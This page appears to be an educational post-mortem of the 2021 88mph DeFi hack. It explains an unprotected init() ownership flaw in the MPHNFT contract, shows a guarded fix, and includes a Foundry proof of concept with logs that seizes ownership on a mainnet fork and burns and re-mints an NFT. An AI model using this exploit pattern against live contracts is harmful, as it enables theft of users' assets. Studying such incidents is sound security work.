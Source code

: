 # 88mph


## What's 88mph?

88mph is an Ethereum-based, decentralized application (dApp) 
for users who want to borrow and lend at a fixed interest rate. 
But instead of being a self-contained protocol, 88mph is actually a mediator
for more popular third-party lending dApps, such as Aave or Compound. It’s designed
for advanced DeFi investors who understand the perils of financial complexity.


## Amount stolen
$6.5 million USD

JUNE 15, 2021

## Vulnerability
```unprotected init()```



## Analysis

In the MPHNFT contract, there was a vulnerability present in 
init() function, which allowed any user to claim ownership of the contract. 

### Exploited code

```solidity
    function init( 
        address newOwner,
        string calldata tokenName,
        string calldata tokenSymbol
    ) external {
        _transferOwnerShip(newOwner);
        _tokenName = tokenName;
        _tokenSymbol = tokenSymbol;

        _registerInterface(_INTERFACE_ID_ERC721_METADATA);
        _registerInterface(_INTERFACE_ID_ERC165);
        _registerInterface(_INTERFACE_ERC721);
    }
```

Best practices recommend using a constructor or an initialization 
guard to ensure that the initialization process happens only once.

```solidity
    bool private initialized = false;

    modifier onlyUninitialized() {
          require(!initialized, "MPHNFT: already initialized");
          _;
      }

    function init( 
        address newOwner,
        string calldata tokenName,
        string calldata tokenSymbol
    ) external onlyUninitialized {
        initialized = true;

        _transferOwnerShip(newOwner);
        _tokenName = tokenName;
        _tokenSymbol = tokenSymbol;

        _registerInterface(_INTERFACE_ID_ERC721_METADATA);
        _registerInterface(_INTERFACE_ID_ERC165);
        _registerInterface(_INTERFACE_ERC721);

    }
```

# proof of concept (PoC) 

We retrieve the historical state of the smart contract prior to the exploit through the use of `createSelectFork`, which creates a fork of the specified network.

Because of the lack of access control we can simply call the `init` function to 
claim owner ship of the contract

Now that contract ownership has been established, 
it does not imply ownership of all the NFTs. However,
we gain the ability to manipulate the NFTs by using the `burn` operation 
to delete existing tokens and the `mint` operation to create new ones.
 
```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity ^0.8.10;

    contract ContractTest is DSTest {
        CheatCodes cheats = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);
        I88mph mphNFT = I88mph(0xF0b7DE03134857391d8D43Ed48e20EDF21461097);
    
        function setUp() public {
            cheats.createSelectFork("mainnet", 12_516_705); 
        }
    
        function testExploit() public {
            // Display the current owner of the NFT contract before the exploit
            console.log("Before exploiting, NFT contract owner:", mphNFT.owner());
        
            // Exploit: Call the vulnerable init function to change the owner to this contract's address
            mphNFT.init(address(this), "0", "0");
            console.log("After exploiting, NFT contract owner:", mphNFT.owner());
        
            // Display the current owner of NFT #1 before burning
            console.log("NFT Owner of #1: ", mphNFT.ownerOf(1));
        
            // Exploit: Burn the existing token with ID #1
            mphNFT.burn(1);
            
            // Expect a revert due to querying the owner of a non-existent token
            cheats.expectRevert(bytes("ERC721: owner query for nonexistent token"));
        
            // Display the owner of the non-existent token #1 after burning
            console.log("After burning: NFT Owner of #1: ", mphNFT.ownerOf(1)); // token burned, nonexistent token
        
            // Exploit: Mint a new token #1, now owned by this contract
            mphNFT.mint(address(this), 1);
            
            // Display the owner of the newly minted token #1 after exploiting
            console.log("After exploiting: NFT Owner of #1: ", mphNFT.ownerOf(1)); // token 1 now owned by us
        }

    
        function onERC721Received(address, address, uint256, bytes memory) public returns (bytes4) {
            return this.onERC721Received.selector;
        }
    }
```


Logs:
```
  Before exploiting, NFT contract owner: 0x904F81EFF3c35877865810CCA9a63f2D9cB7D4DD
  After exploiting, NFT contract owner: 0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496
  NFT Owner of #1:  0xAfD5f60aA8eb4F488eAA0eF98c1C5B0645D9A0A0
  After burning: NFT Owner of #1:  0x0000000000000000000000000000000000000000
  After exploiting: NFT Owner of #1:  0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496
```


**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/88mph_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
